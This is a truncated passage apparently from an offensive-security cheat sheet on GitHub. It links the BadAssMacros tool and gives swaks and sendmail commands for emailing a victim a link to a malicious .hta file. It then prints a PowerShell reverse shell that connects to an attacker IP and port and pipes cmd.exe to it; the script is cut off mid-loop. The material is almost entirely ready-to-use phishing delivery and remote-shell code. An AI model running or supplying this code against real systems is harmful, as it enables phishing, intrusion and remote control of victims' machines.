 - [BadAssMacros](https://github.com/Inf0secRabbit/BadAssMacros)
<br>

## Deploy:
***
<br>

### Method 1:
```
swaks --body 'click me http://192.168.X.X/file.hta' --add-header
"Really: 1.0" --add-header "Content-Type: text/html" --header
"Subject: Important" -t victim@corp.com -f attacker@corp.com --server
192.168.X.X
```
<br>

### Method 2:
 ```
 sendmail -f attacker@email.com -t victim@email.com -s 192.168.x.x -u "Subject" -m "body"
```
<br>

# Powershell
<br>

### Reverse Shell

-  Replace ip/port, save as .txt file and host on your server

```powershell
function cleanup {
if ($client.Connected -eq $true) {$client.Close()}
if ($process.ExitCode -ne $null) {$process.Close()}
exit}
// Setup IPADDR
$address = '192.168.1.13'
// Setup PORT
$port = '4242'
$client = New-Object system.net.sockets.tcpclient
$client.connect($address,$port)
$stream = $client.GetStream()
$networkbuffer = New-Object System.Byte[] $client.ReceiveBufferSize
$process = New-Object System.Diagnostics.Process
$process.StartInfo.FileName = 'C:\\windows\\system32\\cmd.exe'
$process.StartInfo.RedirectStandardInput = 1
$process.StartInfo.RedirectStandardOutput = 1
$process.StartInfo.UseShellExecute = 0
$process.Start()
$inputstream = $process.StandardInput
$outputstream = $process.StandardOutput
Start-Sleep 1
$encoding = new-object System.Text.AsciiEncoding
while($outputstream.Peek() -ne -1){$out += $encoding.GetString($outputstream.Read())}
$stream.Write($encoding.GetBytes($out),0,$out.Length)
$out = $null; $done = $false; $testing = 0;
while (-not $done) {
if ($client.Connected -ne $true) {cleanup}
$pos = 0; $i = 1
while (($i -gt 0) -and ($pos -lt $networkbuffer.Length)) {
$read = $stream.Read($networkbuffer,$pos,$networkbuffer.Length - $pos)
$pos+=$read; if ($pos -and ($networkbuffer[0..$($pos-1)] -contains 10)) {break}}
if ($pos -gt 0) {
$string = $encoding.GetString($networkbuffer,0,$pos)
```
